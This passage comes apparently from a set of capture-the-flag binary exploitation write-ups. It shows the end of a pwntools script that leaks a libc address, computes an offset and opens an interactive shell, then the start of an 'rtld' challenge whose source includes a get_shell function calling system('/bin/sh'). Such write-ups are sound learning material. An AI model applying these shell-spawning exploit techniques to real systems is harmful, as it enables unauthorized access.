 leak_2 = u64(p.recv(6).ljust(8,b'\x00'))
print(hex(leak_2))
file_context = leak_2 - 0x1568
p.sendlineafter(b'> ',b'1')
p.sendlineafter(": ",str(file_context).encode())
#gdb.attach(p)
#input()
p.interactive()
```

ref : 

https://cw00h.github.io/til/hacking/TIL220913/


----------------

32 . rtld
-------

source  : 

```
// gcc -o rtld rtld.c -fPIC -pie

#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>
#include <dlfcn.h>

void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(60);
}

void get_shell() {
    system("/bin/sh");
}

int main()
{
    long addr;
    long value; 

    initialize();

    printf("stdout: %p\n", stdout);
